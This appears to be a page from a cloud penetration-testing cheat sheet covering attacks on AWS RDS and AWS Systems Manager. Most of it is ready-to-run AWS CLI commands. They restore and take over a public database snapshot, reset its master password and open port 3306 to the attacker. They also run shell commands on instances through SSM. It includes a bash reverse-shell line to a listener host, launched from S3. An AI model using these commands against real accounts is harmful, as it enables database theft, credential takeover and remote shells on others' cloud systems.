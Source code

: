 ### **AWS RDS \(DB\) attacks**

```text
# Just like a MySQL, try for sqli!
# Check if 3306 is exposed
# Sqlmap is your friend ;)

# Stealing RDS Snapshots
- Searching partial snapshots
aws rds describe-db-snapshots --include-public --snapshot-type public --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup
- Restore in instance
aws rds restore-db-instance-from-db-snapshot --db-instance-identifier recoverdb --publicly-accessible --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup --availability-zone us-east-1b
- Once restored, try to access
aws rds describe-db-instances --db-instance-identifier recoverdb
- Reset the master credentials
aws rds modify-db-instance --db-instance-identifier recoverdb --master-user-password NewPassword1 --apply-immediately
    - Takes some time, you can check the status:
    aws rds describe-db-instances
- Try to access it from EC2 instance which was restored
nc rds-endpoint 3306 -zvv    
- If you can't see, you may open 3306:
    - In RDS console, click on the recoverdb instance
    - Click on the Security Group
    - Add an Inbound rule for port 3306 TCP for Cloudhacker IP
 - Then connect it
 mysql -u <username> -p -h <rds-instance-endpoint>
```

### **AWS Systems Manager**

![](../../.gitbook/assets/imagen.png)

```text
# AWS SSM
- The agent must be installed in the machines
- It's used to create roles and policies

# Executing commands
aws ssm describe-instance-information #Get instance
- Get "ifconfig" commandId
aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP config" --parameters commands=ifconfig --output text --query "Command.CommandId"
- Execute CommandID generated for ifconfig
aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}"

# Getting shell
- You already need to have reverse.sh uploaded to s3
#!/bin/bash
bash -i >& /dev/tcp/REVERSE-SHELL-CATCHER/9999 0>&1
- Start your listener
aws ssm send-command --document-name "AWS-RunRemoteScript" --instance-ids "INSTANCE-ID-HERE" --parameters '{"sourceType":["S3"],"sourceInfo":["{\"path\":\"PATH-TO-S3-SHELL-SCRIPT\"}"],"commandLine":["/bin/bash NAME-OF-SHELL-SCRIPT"]}' --query "Command.CommandId"
```
